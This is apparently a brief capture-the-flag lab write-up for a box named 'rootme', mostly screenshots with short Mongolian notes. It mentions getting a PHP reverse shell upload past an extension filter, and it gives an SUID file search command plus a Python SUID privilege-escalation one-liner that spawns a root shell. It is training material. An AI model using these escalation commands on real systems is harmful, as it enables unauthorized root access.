# rootme 10.10.50.129









reverse shell php tataad upload hiihed error zaasan buguud php filtertei bsn










find / -type f -perm -4000 2>/dev/null гэдэг нь систем доторх бүх set‑UID файлуудыг (SUID — 4000 бит) root‑аар ажиллах (эсвэл owner‑руу шилжих) зориулалттайгаар олж харуулах команд юм. 2>/dev/null нь зөвшөөрөлгүй фолдерууд дээрх алдаанууд (permission denied гэх мэт) консолд харагдахаас хаадаг.



pythonsuid
sudo install -m =xs $(which python) .

./python -c 'import os; os.execl("/bin/sh", "sh", "-p")





